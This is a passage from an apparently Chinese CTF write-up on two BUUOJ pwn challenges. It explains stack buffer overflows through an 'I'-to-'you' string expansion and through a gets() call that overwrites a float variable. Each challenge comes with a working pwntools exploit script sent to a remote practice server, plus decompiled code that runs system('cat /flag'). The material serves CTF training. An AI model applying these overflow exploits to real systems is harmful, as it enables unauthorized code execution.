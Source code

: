当输入20个“I”的时候就变成了20个“you”，这样长度就变成60了。  
溢出就在这里出现了。

### exp
```python
from pwn import *
context.log_level = "debug"

# io = process('./pwn1_sctf_2016')
io = remote('node3.buuoj.cn','25120')

shell = 0x08048F0D
payload = "I" * 20 + "a" * 4 + p32(shell) 
# 0x3c+4 == 3*20+4 
io.sendline(payload)
io.interactive()

```
## 0x04 ciscn_2019_n_1
### ans  
```c++
  int result; // eax
  char v1; // [rsp+0h] [rbp-30h]
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(&v1); //溢出点
  if ( v2 == 11.28125 )
    result = system("cat /flag");
```
通过gets函数把v2覆盖，使其通过if的验证。

```c++
.text:00000000004006B5                 ucomiss xmm0, cs:dword_4007F4
.text:00000000004006BC                 jnz     short loc_4006CF
.text:00000000004006BE                 mov     edi, offset command ; "cat /flag"
.text:00000000004006C3                 mov     eax, 0
.text:00000000004006C8                 call    _system
```
查看该段函数的汇编，在 if 的判断条件中找到对应的 11.28125 的浮点数表示。  
应该是会 jnz 命令前的一句中出现。  
点进 cs:dword_4007F4 中查看，如下图： 

```c++
.rodata:00000000004007F4 dword_4007F4    dd 41348000h            ; DATA XREF: func+31↑r
.rodata:00000000004007F4                                         ; func+3F↑r
```
0x4007F4 处写着41348000h 这就是 11.28125 的浮点数表示。  

### exp
```python
from pwn import *
context.log_level = "debug"

# io = process('./ciscn_2019_n_1')
io = remote('node3.buuoj.cn','25138')

v1 = (0x30-4)* 'a'
v2 = 0x41348000
payload = v1 + p64(v2)

io.sendline(payload)
io.interactive()
```